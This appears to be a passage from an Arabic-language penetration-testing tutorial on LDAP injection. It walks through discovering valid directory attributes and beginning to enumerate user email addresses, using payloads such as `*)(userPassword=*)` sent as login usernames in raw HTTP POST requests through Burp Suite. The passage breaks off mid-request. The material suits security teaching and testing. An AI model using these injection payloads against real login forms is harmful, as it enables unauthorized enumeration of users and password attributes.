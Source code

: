 
### الخطوة 3: اكتشاف الخصائص الصالحة (Valid Attributes)
**الهدف**: تحديد الخصائص المدعومة في الدليل (مثل `uid`, `cn`, `userPassword`) لاستهدافها.

**مثال عملي**:
- **السيناريو**: تريد معرفة ما إذا كانت خاصية `userPassword` أو `mail` مدعومة في نموذج تسجيل الدخول.
- **الأدوات**: Burp Suite Repeater.
- **الإجراء**:
  1. أدخل استعلامًا لاختبار خاصية `userPassword`:
     - Username: `*)(userPassword=*)`
     - Password: `anything`
     - طلب:
       ```
       POST /login HTTP/1.1
       Host: example.com
       Content-Type: application/x-www-form-urlencoded

       username=*)(userPassword=*)&password=anything
       ```
  2. إذا أعادت الاستجابة رمز 200 أو نصًا مثل "User exists"، فـ `userPassword` مدعومة.
  3. كرر لخصائص أخرى (مثل `cn`, `mail`, `sn`):
     - Username: `*)(cn=*)`
     - طلب:
       ```
       POST /login HTTP/1.1
       Host: example.com
       Content-Type: application/x-www-form-urlencoded

       username=*)(cn=*)&password=anything
       ```
  4. سجّل الخصائص التي تعيد استجابات إيجابية (مثل `userPassword`, `cn`, `mail`).

- **النتيجة المتوقعة**:
  - `*)(userPassword=*)` يعيد رمز 200 ونص "User exists"، مما يؤكد دعم `userPassword`.
  - `*)(cn=*)` يعيد نفس الاستجابة، مما يؤكد دعم `cn`.
  - `*)(xyz=*)` يعيد رمز 403 أو "Invalid"، مما يشير إلى أن `xyz` غير مدعوم.
- **الأوامر/الإجراءات**:
  - في Burp Suite Repeater، أرسل الطلبات لكل خاصية.
  - استخدم قائمة خصائص شائعة:
    ```
    uid, cn, sn, userPassword, mail, givenName, objectClass
    ```
  - سجّل الخصائص الصالحة لاستخدامها في الخطوات التالية.

---

### الخطوة 4: جمع المعلومات عن المستخدمين أو الكائنات
**الهدف**: استخراج معلومات عن المستخدمين (مثل أسماء المستخدمين أو عناوين البريد) باستخدام الخصائص الصالحة.

**مثال عملي**:
- **السيناريو**: لاحظت أن خاصية `mail` مدعومة. تريد تخمين عناوين بريد لمستخدمين مثل `admin` أو `user1`.
- **الأدوات**: Burp Suite Repeater.
- **الإجراء**:
  1. اختبر استعلامًا لتخمين بريد `admin`:
     - Username: `*)(mail=admin@domain.com)`
     - Password: `anything`
     - طلب:
       ```
       POST /login HTTP/1.1
       Host: example.com
       Content-Type: application/x-www-form-urlencoded
